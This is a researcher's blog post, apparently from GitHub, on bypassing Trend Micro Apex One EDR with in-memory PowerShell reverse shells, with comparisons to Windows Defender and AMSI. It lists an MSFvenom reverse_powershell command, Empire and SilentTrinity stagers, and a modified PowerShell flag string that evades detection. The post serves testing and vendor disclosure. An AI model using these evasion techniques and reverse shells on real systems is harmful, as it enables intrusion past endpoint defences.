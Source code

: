 # Bypassing Trend Micro Apex One

![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

## Background

Here's the [solution brief](www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html?modal=overview-apex-f2049a) about Apex One.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff.

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, and then checked again for the hell of it. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end.

![bms](Post%20Images/TMAO-Bypass-imgs/misc-imgs/BMS.PNG)
![scs](Post%20Images/TMAO-Bypass-imgs/misc-imgs/SCS.PNG)

## Testing

I wanted to test Apex One to see if it works as advertised, rather than setting it up, changing necessary settings and forgetting about it. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell via an exploit, recovered creds that allows for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to skate around Apex. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was alerting and blocking anything malicious that touched the disk. However, things started going downhill when I started testing file-less payloads or ones that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would alert on it. All I wanted to do was to make sure it was stopping known or old payloads and tools.

### Tools and payloads that were used to bypass Apex One

* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## MSFVenom cmd/windows/reverse_powershell

![msfv_1](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_kalivm.PNG)
![msfv_2](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod.PNG)
![msfv_3](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfvenom_payload.PNG)
![msfv_4](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass.PNG)
![msfv_6](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass2.PNG)

## Observations & Anomalies

## PowerShell Empire

I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on having Apex detect the MSFvenom cmd/windows/reverse_powershell payload). Apex received the patch on May 8th and I was still able to get around Apex with Empire. On the 23rd of May, Apex had for the first time in my environment, successfully prevented the callback to Empire. Everything was fine and dandy until on June 5th, I tested Apex again for the sake of consistency. Apex once again failed to prevent the callback the Empire instance running on my Kali machine. At this time I noticed that the IP on my Kali box had changed. Thus, began the trend of inconsistencies.

While testing after the 5th of June, I noticed three things. The first one is that changing the IP of my Kali machine looked like it had some role in Empire being successful again, but I highly doubt it would be that simple to outmaneuver and EDR solution like that. The second anomaly was the effect of base64 encoded payloads. When using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec, Apex One was alerting on it. Apex seems to ignore it if I just straight up generate the payload with MSFvenom with no encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. Before the May 8th patch, the opposite seemed to be occurring when using the base64 encoded PowerShell payload generated from the launcher command in Empire. With this in mind, I decided to decode the base64 encoded payload Empire produced. It seemed to have worked for a short while before Apex catched on and started blocking it.

The third and final anomaly that has been the most consistent in getting me around Apex since the update is simply changing the [flags](https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1). These flags are used with the `powershell` command before the base64 encoded payload body. Based on my observations during testing, Apex is very inconsistent when alerting on this method. Sometimes it will alert if I leave the default flags `powershell -w hidden -noP`. Sometimes it will alert if I tweak them. Sometimes it won't alert either way. I'm not exactly sure why this is though. My guess is that the *'machine learning'* component of Apex is not up to snuff and could use some more work. I even used some of the modules that Empire provided thinking that Apex would alert on those. Unfortunately, when using some of the modules like `powershell/privesc/ask`, Apex did not alert on any of them.

#### Default payload generation

![PSE_default_bypass](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/default2.PNG)
![PSE_default_privesc](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/privesc_success2.PNG)

#### Payload tweak & modification

Note the following: `powershell -executionpolicy unrestricted -nologo -noexit -noninteractive -encoded`

![PSE_mod](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/pse_tweak.PNG)


## A Shocking Revelation

During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1803 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1803 were able to block almost everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the GitHub link.

![Github One-liner](Post%20Images/TMAO-Bypass-imgs/misc-imgs/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I did receive an error message telling me that the PowerShell stager with the embedded interpreter for the Boo Lang or Iron Python based payload and the MSBuild.xml stagers failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# Updates

## Update #1: June 21st 2019

1. Currently, Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory.
2. Currently, Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via a .NET language, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.

## Update #2: June 26th 2019

Apex One seems to be consistently alerting on PowerShell Empire payloads in which I don't change or modify the default launcher value when setting up a listener. However, upon speaking with the team at Trend Micro, they informed me that they would have to open another ticket. I guess that means the simple technique I've been using by changing the flags used with the PowerShell command is a separate and completely new issue. So, I basically found a way to bypass the update that was pushed out on May 8th before the day was even over with. 😁
